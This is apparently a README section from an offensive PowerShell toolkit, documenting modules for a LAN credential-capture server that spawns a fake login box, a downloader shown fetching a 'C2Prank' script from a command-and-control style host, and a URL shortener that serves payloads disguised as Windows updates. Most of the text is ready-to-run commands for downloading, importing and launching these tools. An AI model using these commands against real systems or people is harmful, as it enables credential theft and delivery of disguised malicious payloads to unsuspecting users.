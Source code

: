 ## Module Name
   <b><i>CaptureServer.ps1</i></b>

|Function name|Description|Privileges|Notes|
|---|---|---|---|
|CaptureServer|Captute HTTP credentials on local lan (spawns credential box)|Administrator|[screenshot](https://raw.githubusercontent.com/r00t-3xp10it/redpill/main/lib/HTTP-Server/webcreds.png)|

```powershell
iwr -uri "https://raw.githubusercontent.com/r00t-3xp10it/redpill/main/lib/HTTP-Server/CaptureServer.ps1" -OutFile "CaptureServer.ps1"
```

```powershell
Import-Module -Name ".\CaptureServer.ps1" -Force
CaptureServer -AuthType "Basic" -IPAddress "192.168.1.72" -LogFilePath "$Env:TMP\CaptureServer.txt"
Start "http://192.168.1.72:80"
```

<br />

## Module Name
   <b><i>Start-SimpleHTTPServer.ps1</i></b>
   
|Function Name|Description|Privileges|Notes|
|---|---|---|---|
|Start-SimpleHTTPServer|Simple HTTP pure powershell webserver|Administrator|Current directory its used as webroot|

```powershell
iwr -uri "https://raw.githubusercontent.com/r00t-3xp10it/redpill/main/lib/HTTP-Server/Start-SimpleHTTPServer.ps1" -OutFile "Start-SimpleHTTPServer.ps1"
```

```powershell      
Import-Module -Name ".\Start-SimpleHTTPServer.ps1" -Force
Start-SimpleHTTPServer -Port "8080"
```   

<br />

## Module Name
   <b><i>wget.vbs</i></b>
   
|Script Name|Description|Privileges|Notes|
|---|---|---|---|
|wget.vbs|VBScript to download files from Local Lan|User Land|can be executed using **'cscript'** or **'powershell'** interpreter|

```powershell
iwr -uri "https://raw.githubusercontent.com/r00t-3xp10it/redpill/main/lib/HTTP-Server/wget.vbs" -OutFile "wget.vbs"
```

```powershell      
cscript wget.vbs http://10.11.0.5/C2Prank.ps1 C2Prank.ps1
.\wget.vbs https://raw.githubusercontent.com/r00t-3xp10it/meterpeter/master/mimiRatz/C2Prank.ps1 C2Prank.ps1
```  

<br />

## Module Name
   <b><i>Invoke-ShortUrl.ps1 - UNDER-DEVELOP (NOT STABLE)</i></b>
   
|Cmdlet Name|Description|Privileges|Notes|
|---|---|---|---|
|Invoke-ShortUrl|TinyUrl url generator|User Land|Dependencies: python3 (http.server)|

```powershell
iwr -uri "https://raw.githubusercontent.com/r00t-3xp10it/redpill/main/lib/HTTP-Server/Invoke-shorturl.ps1" -OutFile "Invoke-ShortUrl.ps1"
```

<br />

**prerequesites checks:**
```powershell
#Make sure python (http.server) its available [optional]
[optional] python -m http.server 8089 --bind 127.0.0.1
```

```powershell
#Get module full help
Get-Help .\Invoke-ShortUrl.ps1 -Full


#URI: http://127.0.0.1:8080/Update-KB5005101.html
.\Invoke-ShortUrl.ps1 -ServerPort '127.0.0.1:8080'

#URI: http://192.168.1.72:8087/update.html
.\Invoke-ShortUrl.ps1 -ServerPort '192.168.1.72:8087' -PayloadName 'update.html'

#URI: http://192.168.1.72:8087/fake-update.zip ( verbose outputs )
.\Invoke-ShortUrl.ps1 -PayloadName 'fake-update.zip' -Verb 'true'

#URI: http://127.0.0.1:8081/Update-KB5005101.html ( start http.server )
.\Invoke-ShortUrl.ps1 -serverport '127.0.0.1:8081' -startserver 'true'

#URI: http://192.168.1.72:8087/mozlz4-win32.exe ( start http.server )
.\Invoke-ShortUrl.ps1 -Payloadname 'mozlz4-win32.exe' -startserver 'true'
```  
